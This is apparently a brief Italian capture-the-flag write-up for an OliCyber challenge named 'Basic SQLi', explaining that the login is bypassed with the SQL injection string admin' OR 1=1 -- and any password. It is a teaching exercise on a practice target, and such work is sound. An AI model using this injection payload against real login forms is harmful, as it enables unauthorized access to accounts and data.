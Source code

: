 # Basic SQLi
http://basic-sqli.challs.olicyber.it

# Spiegazione
Basta fare una semplice SQL injection.

```sql
admin' OR 1=1 -- 
```

Il campo password è richiesto comunque però basta mettere qualsiasi cosa e funzionerà.